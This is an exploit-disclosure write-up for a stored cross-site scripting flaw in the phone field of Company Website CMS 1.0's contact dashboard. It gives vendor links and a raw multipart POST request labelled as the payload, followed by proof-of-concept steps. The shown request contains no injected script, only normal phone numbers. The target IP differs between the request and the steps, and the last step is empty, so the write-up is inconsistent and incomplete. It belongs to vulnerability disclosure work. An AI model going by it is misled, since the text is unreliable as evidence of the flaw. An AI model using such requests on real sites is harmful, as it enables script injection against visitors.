

# Company Website CMS  -  /dashboard/contact  'phone' Stored Cross-Site Scripting(XSS)


#### Exploit Title: Company Website CMS  -  /dashboard/contact  'phone' Stored Cross-Site Scripting(XSS)
#### Exploit Author: webraybtl@webray.com.cn inc
#### Vendor Homepage: https://www.sourcecodester.com/php/15517/company-website-cms-php.html
#### Software Link:https://www.sourcecodester.com/download-code?nid=15517&title=Company+Website+CMS+in+PHP+and+MySQL+Free+Source+Code
#### Version: Company Website CMS  1.0
#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description
Persistent XSS (or Stored XSS) attack is one of the three major categories of XSS attacks, the others being Non-Persistent (or Reflected) XSS and DOM-based XSS. In general, XSS attacks are based on the victim’s trust in a legitimate, but vulnerable, website or web application. Company Website CMS does not filter the content correctly at the  parameter, resulting in the generation of stored XSS.

#### Payload used:
```
POST /dashboard/contact HTTP/1.1
Host: 192.168.67.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------7024317128117527412760215857
Content-Length: 989
Origin: http://192.168.67.9
Connection: close
Referer: http://192.168.67.9/dashboard/contact
Upgrade-Insecure-Requests: 1

-----------------------------7024317128117527412760215857
Content-Disposition: form-data; name="phone1"

+89 (0) 2354 5470091
-----------------------------7024317128117527412760215857
Content-Disposition: form-data; name="phone2"

+89 (0) 2354 5470091
-----------------------------7024317128117527412760215857
Content-Disposition: form-data; name="email1"

mail@company.com
-----------------------------7024317128117527412760215857
Content-Disposition: form-data; name="email2"

mail@company.com
-----------------------------7024317128117527412760215857
Content-Disposition: form-data; name="longitude"

7.099737483
-----------------------------7024317128117527412760215857
Content-Disposition: form-data; name="latitude"

7.63734634
-----------------------------7024317128117527412760215857
Content-Disposition: form-data; name="save"


-----------------------------7024317128117527412760215857--

```


#### Proof of Concept

1. Send payload
   
2. Open Page http://192.168.67.5/， We can see the alert.;
3. 

   
   

   

   


